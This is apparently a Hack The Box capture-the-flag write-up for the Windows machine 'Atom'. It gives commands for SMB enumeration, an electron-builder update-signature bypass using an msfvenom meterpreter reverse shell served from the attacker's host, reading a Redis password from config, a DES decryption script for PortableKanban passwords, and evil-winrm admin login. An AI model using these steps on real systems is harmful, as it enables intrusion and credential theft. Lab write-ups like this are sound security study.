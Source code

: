 # Atom 
IP: 10.10.10.237
System: windows

referense to atom editor ? 
Lets start by focus on things that have something to do with programming / software. 

add the ip to hosts 
````bash
echo "10.10.10.237 atom.htb" >> /etc/hosts
````

## Nmap scan
|port|service|
|---|---|
|80|http|
|135|msrpc|
|443|https|
|445|SMB|
|5985|http|
|6379|redis|
|7680|pando-pub?|

On the http/https is the same page, which allows you to download a program for windows. 

lets try SMB port 

````bash
smbclient atom.htb
````

This will display interresting shares, lets start with software_updates there might be something there

````bash
smbclient atom.htb\Software_updates
````

````bash
smbclient -N "\\\\atom.htb\Software_Updates"
````

get download the pdf, no need to look at the other folder as they are empty.

Look to be a user acception test document. 


````bash
get UAT_Testing_procesudres.pdf
````

What we learn from the document is that the application is built on "electron-builder"

https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

From the blog posts we learn that the signature verfication process in electron-builder is string comparison between the install binary publisherName and cerf common name. 

let try out exploit first with msfvenom.  

````bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.200 LPORT=8765 -f exe -o "trustme.exe"
````

````bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set Lhost 10.10.14.200
set lport 8765
````

Create you yml file 

````yml
version: 1.2.3
path: http://10.10.14.200/trustme.exe
sha512: <hash>

````

````python
python3 -m http.server
````

login back into the smb and put in the latest.yml file inside one of the clients.

````smb
cd client1
put latest.yml
````

lets wait and see if anything happens. 

and we got shell. 

````cmd
more c:\users\jason\desktop\user.txt
````

## admin
I always wanted to try somthing like WINPEAs and see if it works. 

upload the file using meterpreter

````ps
winPEASx64.exe servicesinfo
````

from the winPEAS we learn about a service called redis

what is redis??

going to the redis folder we see a conf file

````cmd
cd c:\program files\Redis
type redis.windows.service.conf
#output
requirepass kidvscat_yes_kidvscat

````

install redis-cli is you do not have it. 

````bash
apt intall redis-tools
redis-cli -h atom.htb -a <password>
keys * 
get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
````

{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"

And we got the hash -> Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
Now the question is how do we get the password?

while using the winpeasx64 I saw the jason having Portable kanban inside his downloable folder, lets see if they use the same password for that as his admin account. 
Portable-kanban stores password as encryption format des and the same key is used for every product. 

google *Portable kanban encrypted password* and you get a python script for how to decrypt the hash. but it uses the pk3 file as argument but as we allready have the hash lets just that instead, and just alway everything we do not need. 

 ````python3
 import base64
from des import * #python3 -m pip install des

try:
    hash = base64.b64decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi")
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
 ````

And we got the admin password.
Decrypted Password : kidvscat_admin_@123

lets use the windows remote management to get access as admin on the machine, it a SOAP based protocol that allows hardware and operation systems from diffrent vendors to interoperate. 

Has a nice tool to get access to it.
https://github.com/Hackplayers/evil-winrm


````bash
sudo gem install evil-winrm
evil-winrm -i 10.10.10.237 -u 'administrator' -p 'kidvscat_admin_@123'
````

And we got root access.


hash -> 7df7256dc47d2125d825058b2f89ff38
writeups:
